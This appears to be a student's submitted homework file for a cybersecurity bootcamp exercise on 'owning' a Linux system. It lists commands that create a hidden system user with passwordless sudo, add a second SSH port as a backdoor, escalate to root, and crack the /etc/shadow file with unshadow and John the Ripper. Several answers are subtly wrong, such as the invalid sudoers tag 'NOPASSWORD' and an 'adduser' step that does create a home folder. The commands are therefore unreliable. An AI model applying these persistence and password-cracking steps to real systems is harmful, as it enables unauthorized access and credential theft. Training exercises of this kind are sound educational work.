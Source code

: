 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `adduser sysd`

2. Give your secret user a password: 
    - `Pi$$a76`

3. Give your secret user a system UID < 1000:
    - `usermod -u 988 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 988 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   - in visudo -
   - sysd ALL=(ALL) NOPASSWORD:ALL

6. Test that `sudo` access works without your password:

    sudo -l

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```bash
    Port 22
    Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - systemctl restart ssh.service


2. Exit the `root` account:
    - su sysadmin

    

3. SSH to the target machine using your `sysd` account and port `2222`:
    - ssh sysd@192.168.6.105 -p 2222

    

4. Use `sudo` to switch to the root user:
    - sudo su root

    

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - ssh sysd@192.168.6.105 -p 2222

    

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - sudo su root

    

---/usr/sbin/unshadow /etc/passwd /etc/shadow > /tmp/crack.password.db
---john /tmp/crack.password.db
---john -show /tmp/crack.password.db | awk -F: '{print $1, $2}'

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

